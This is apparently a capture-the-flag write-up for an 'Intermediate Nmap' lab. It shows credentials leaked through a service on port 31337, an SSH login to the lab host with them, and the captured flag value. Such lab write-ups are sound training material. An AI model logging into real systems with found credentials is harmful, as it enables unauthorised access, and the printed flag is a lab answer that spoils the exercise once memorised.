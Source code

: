 # Intermediate Nmap (Very Easy)

![Untitled](Intermediate_Nmap_images/Untitled.png)

---

# Enumeration

![Untitled](Intermediate_Nmap_images/Untitled%201.png)

![Untitled](Intermediate_Nmap_images/Untitled%202.png)

We found the creds through port `31337` at line:

```
In case I forget - user:pass
|_    ubuntu:Dafdas!!/str0ng
```

The creds: `ubuntu:Dafdas!!/str0ng`

# Exploit - Gain Access → Get Flag

Now try to use the previous creds to login `ssh`

```tsx
┌──(kali㉿kali)-[~]
└─$ ssh ubuntu@10.10.130.178       
ubuntu@10.10.130.178's password: Dafdas!!/str0ng
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.13.0-1014-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
```

![Untitled](Intermediate_Nmap_images/Untitled%203.png)

Now we are in! Navigate the flag’s directory and get it!

```tsx
$ pwd
/home/ubuntu
$ ls -la
total 28                                                                                    
drwxr-xr-x 1 ubuntu ubuntu 4096 Jun 29 04:07 .                                              
drwxr-xr-x 1 root   root   4096 Mar  2  2022 ..                                             
-rw-r--r-- 1 ubuntu ubuntu  220 Feb 25  2020 .bash_logout                                   
-rw-r--r-- 1 ubuntu ubuntu 3771 Feb 25  2020 .bashrc                                        
drwx------ 2 ubuntu ubuntu 4096 Jun 29 04:07 .cache                                         
-rw-r--r-- 1 ubuntu ubuntu  807 Feb 25  2020 .profile                                       
$ cd ..
$ ls
ubuntu  user
$ cd user
$ ls -la
total 16
drwxr-xr-x 2 root root 4096 Mar  2  2022 .
drwxr-xr-x 1 root root 4096 Mar  2  2022 ..
-rw-rw-r-- 1 root root   38 Mar  2  2022 flag.txt
$ cat flag.txt
flag{251f309497a18888dde5222761ea88e4}
```